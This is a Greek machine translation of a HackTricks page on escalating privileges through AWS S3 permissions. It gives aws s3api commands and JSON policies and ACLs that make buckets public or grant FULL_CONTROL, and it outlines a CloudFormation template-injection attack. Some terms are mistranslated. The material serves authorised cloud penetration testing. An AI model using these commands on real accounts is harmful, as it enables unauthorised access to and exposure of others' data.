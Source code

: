 # AWS - Ανέβασμα Προνομίων στο S3

<details>

<summary><strong>Μάθετε το hacking στο AWS από το μηδέν μέχρι τον επαγγελματία με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**The PEASS Family**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα hacking tricks σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

## S3

### `s3:PutBucketNotification`, `s3:PutObject`, `s3:GetObject`

Ένας επιτιθέμενος με αυτές τις άδειες πάνω σε ενδιαφέροντα buckets μπορεί να καταφέρει να αποκτήσει τον έλεγχο των πόρων και να ανεβάσει τα προνόμια.

Για παράδειγμα, ένας επιτιθέμενος με αυτές τις **άδειες πάνω σε ένα bucket cloudformation** με το όνομα "cf-templates-nohnwfax6a6i-us-east-1" θα μπορούσε να αποκτήσει τον έλεγχο της αναπτυξιακής διαδικασίας. Η πρόσβαση μπορεί να δοθεί με την ακόλουθη πολιτική:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Action":[
"s3:PutBucketNotification",
"s3:GetBucketNotification",
"s3:PutObject",
"s3:GetObject"],
"Resource":[
"arn:aws:s3:::cf-templates-*\/*",
"arn:aws:s3:::cf-templates-*"]
},
{
"Effect":"Allow",
"Action":"s3:ListAllMyBuckets",
"Resource":"*"
}]
}
```
Και η αποπροσανατολισμός είναι δυνατός επειδή υπάρχει ένα **μικρό χρονικό παράθυρο από τη στιγμή που ο πρότυπος ανεβαίνει** στο κάδο μέχρι τη στιγμή που το **πρότυπο εκτελείται**. Ένας επιτιθέμενος μπορεί απλά να δημιουργήσει μια **συνάρτηση lambda** στον λογαριασμό του που θα **ενεργοποιηθεί όταν αποστέλλεται μια ειδοποίηση κάδου**, και **αποπροσανατολίζει** το **περιεχόμενο** αυτού του **κάδου**.

![](<../../../.gitbook/assets/image (18) (1) (1).png>)

Το αρθρωτό Pacu [`cfn__resouce_injection`](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#cfn\_\_resource\_injection) μπορεί να χρησιμοποιηθεί για να αυτοματοποιήσει αυτήν την επίθεση.\
Για περισσότερες πληροφορίες, ελέγξτε την αρχική έρευνα: [https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/](https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/)

### `s3:PutObject`, `s3:GetObject` <a href="#s3putobject-s3getobject" id="s3putobject-s3getobject"></a>

Αυτές είναι οι άδειες για **λήψη και αποστολή αντικειμένων στο S3**. Πολλές υπηρεσίες μέσα στο AWS (και εκτός αυτού) χρησιμοποιούν την αποθήκευση S3 για να αποθηκεύουν **αρχεία διαμόρφωσης**.\
Ένας επιτιθέμενος με **δικαίωμα ανάγνωσης** μπορεί να βρει **ευαίσθητες πληροφορίες** σε αυτά.\
Ένας επιτιθέμενος με **δικαίωμα εγγραφής** μπορεί να **τροποποιήσει τα δεδομένα για να καταχραστεί κάποια υπηρεσία και να προσπαθήσει να αναβαθμίσει τα δικαιώματα**.\
Αυτά είναι μερικά παραδείγματα:

* Αν ένα παράδειγμα EC2 αποθηκεύει τα **δεδομένα χρήστη σε έναν κάδο S3**, ένας επιτιθέμενος μπορεί να το τροποποιήσει για να **εκτελέσει αυθαίρετο κώδικα μέσα στο παράδειγμα EC2**.

### `s3:PutBucketPolicy`

Ένας επιτιθέμενος, που πρέπει να είναι **από τον ίδιο λογαριασμό**, αν όχι θα εμφανιστεί το σφάλμα `Η συγκεκριμένη μέθοδος δεν επιτρέπεται`, με αυτήν την άδεια θα μπορεί να χορηγήσει στον εαυτό του περισσότερες άδειες για τον κάδο(ους), επιτρέποντάς του να διαβάσει, να γράψει, να τροποποιήσει, να διαγράψει και να αποκαλύψει κάδους.
```bash
# Update Bucket policy
aws s3api put-bucket-policy --policy file:///root/policy.json --bucket <bucket-name>

## JSON giving permissions to a user and mantaining some previous root access
{
"Id": "Policy1568185116930",
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":{
"AWS":"arn:aws:iam::123123123123:root"
},
"Action":"s3:ListBucket",
"Resource":"arn:aws:s3:::somebucketname"
},
{
"Effect":"Allow",
"Principal":{
"AWS":"arn:aws:iam::123123123123:user/username"
},
"Action":"s3:*",
"Resource":"arn:aws:s3:::somebucketname/*"
}
]
}

## JSON Public policy example
### IF THE S3 BUCKET IS PROTECTED FROM BEING PUBLICLY EXPOSED, THIS WILL THROW AN ACCESS DENIED EVEN IF YOU HAVE ENOUGH PERMISSIONS
{
"Id": "Policy1568185116930",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Stmt1568184932403",
"Action": [
"s3:ListBucket"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome",
"Principal": "*"
},
{
"Sid": "Stmt1568185007451",
"Action": [
"s3:GetObject"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome/*",
"Principal": "*"
}
]
}
```
### `s3:GetBucketAcl`, `s3:PutBucketAcl`

Ένας επιτιθέμενος μπορεί να καταχραστεί αυτές τις άδειες για να **του επιτρέψουν περισσότερη πρόσβαση** σε συγκεκριμένα κάδους.\
Σημειώστε ότι ο επιτιθέμενος δεν χρειάζεται να είναι από τον ίδιο λογαριασμό. Επιπλέον, η πρόσβαση εγγραφής
```bash
# Update bucket ACL
aws s3api get-bucket-acl --bucket <bucket-name>
aws s3api put-bucket-acl --bucket <bucket-name> --access-control-policy file://acl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectAcl`

Ένας επιτιθέμενος μπορεί να καταχραστεί αυτές τις άδειες για να του επιτραπεί περισσότερη πρόσβαση σε συγκεκριμένα αντικείμενα μέσα σε κάδους.
```bash
# Update bucket object ACL
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --access-control-policy file://objacl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectVersionAcl`

Ένας επιτιθέμενος με αυτά τα προνόμια αναμένεται να μπορεί να τοποθετήσει ένα Acl σε μια συγκεκριμένη έκδοση αντικειμένου.
```bash
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --version-id <value> --access-control-policy file://objacl.json
```
<details>

<summary><strong>Μάθετε το hacking του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα hacking tricks σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>
